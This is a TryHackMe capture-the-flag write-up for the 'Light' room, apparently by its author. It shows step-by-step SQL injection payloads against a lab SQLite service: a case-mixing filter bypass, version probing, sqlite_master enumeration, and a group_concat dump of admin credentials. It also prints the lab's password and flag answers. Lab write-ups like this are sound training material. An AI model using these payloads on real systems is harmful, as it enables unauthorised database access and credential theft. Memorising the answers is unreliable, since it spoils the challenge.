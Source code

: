 ## Light - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/lightroom)

<i>Welcome!</i>

<i>I am working on a database application called Light! Would you like to try it out?</i>
<i>If so, the application is running on port 1337. You can connect to it using nc MACHINE_IP 1337</i>
<i>You can use the username smokey in order to get started.</i>

<i>**Note: Please allow the service 2 - 3 minutes to fully start before connecting to it**<i>.

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: SQL Injection <br>

**Tools Used**: Nmap<br>

**Author**: <br>
mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

IP: 10.10.237.33<br>
Username: `smokey`<br>
Password: `vYQ5ngPpw8AdUmL` ; you get this password when you get netcat connection<br>

- Nmap Scan

  ```
  nmap -A -p- 10.10.237.33
  ```

- Found:

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)<br>
1337/tcp open  waste?

## ⚙️ Exploitation 

  ```
  nc 10.10.237.33 1337
  ```

After connecting, type smokey to get his password `vYQ5ngPpw8AdUmL`

- Now we start with the payloads:
  First we check if SQLI is actually possible.

  ```
  smokey'
  smokey' UNION SELECT 1 -- -
  smokey' UNION SELECT 1 #
  ```

- I got various different responses with different queries and I concluded that filtering is present. Now, it took me a bit to find the specific filter bypass since I wanted to find which DBMS is used.<br>
  This is what I used:

  ```
  smokey' UnIon SeLect @@version '
  smokey' UnIon SeLect version() '
  smokey' UnIon SeLect sqlite_version() '
  ```

  Only got positive response with `smokey' UnIon SeLect sqlite_version() '` so its a SQLite database!

  Now extracting the values from DBMS:

- This one extracts table names, it gave me `admintable`:

  ```
  smokey' UnIon SeLect tbl_name FROM sqlite_master WHERE type='table
  ```

- This one extracts schema of table in SQLite:

  ```
  smokey' UnIon SeLect sql FROM sqlite_master WHERE name = 'admintable
  ```

- Now for final push, lets get both usernames and passwords from admintable:

  ```
  smokey' UnIon SeLect group_concat(username || ":" || password) FROM admintable '
  ```

**Result of last query**: `Password:TryHackMeAdmin:mamZtAuMlrsEy5bp6q17,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

- **Theres various different resources/documentation to help you out with this challenge, I prefer PayloadsAllTheThings**.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## 🏁 Flags

- **What is the admin username?** : `TryHackMeAdmin`
- **What is the password to the username mentioned in question 1?** : `mamZtAuMlrsEy5bp6q17`
- **What is the flag?** : `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?<br>
  `It took me a bit to realise that netcat connection gives you immediate access to the database...`
  
- What did I learn?<br>
  `Just kept sharpening SQLI skills`
  
- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!
  
- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
